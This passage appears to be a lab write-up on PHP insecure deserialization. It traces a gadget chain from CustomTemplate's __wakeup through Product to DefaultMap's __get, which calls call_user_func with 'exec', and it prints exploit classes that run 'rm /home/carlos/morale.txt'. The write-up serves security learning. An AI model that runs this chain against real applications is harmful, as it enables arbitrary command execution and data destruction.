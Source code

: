  `__wakeup()` magic method might be perfect as the kick-off gadge

 sink gadget is `DefaultMap` class has `call_user_func` which can execute functions if we can lead our input to this function

- During deserialization, the `__wakeup()` method is automatically called, which invokes the `build_product()` method.
- The `build_product()` method creates a new instance of the `Product` class, passing the `$default_desc_type` and `$desc` properties.
- Inside the `Product` constructor, the value of `$desc->$default_desc_type` is assigned to the `desc` property of the `Product` object.
- In this scenario, the vulnerability can be exploited by replacing the `$desc` object with an instance of the `DefaultMap` class and setting the callback function to a malicious command (e.g., `"exec"`).
- When the `build_product()` method is called, it tries to access `$default_desc_type` in the `DefaultMap` object. Since it doesn't exist, the `__get()` magic method of the `DefaultMap` class is triggered.
- The manipulated callback function is executed within the `__get()` method, allowing the execution of arbitrary code

so the exploit should be 

```php
<?php

class CustomTemplate {
    private $default_desc_type;
    private $desc;
    public $product;

    public function __construct() {
        $this->desc = new DefaultMap();
        $this->default_desc_type = 'rm /home/carlos/morale.txt';
        // Carlos thought this is cool, having a function called in two places... What a genius
    }

    public function __sleep() {
        return ["default_desc_type", "desc"];
    }

    public function __wakeup() {
        $this->build_product();
    }

    private function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
    }
}

class Product {
    public $desc;

    public function __construct($default_desc_type, $desc) {
        $this->desc = $desc->$default_desc_type;
    }
}
class DefaultMap {
    private $callback;

    public function __construct($callback='exec') {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
```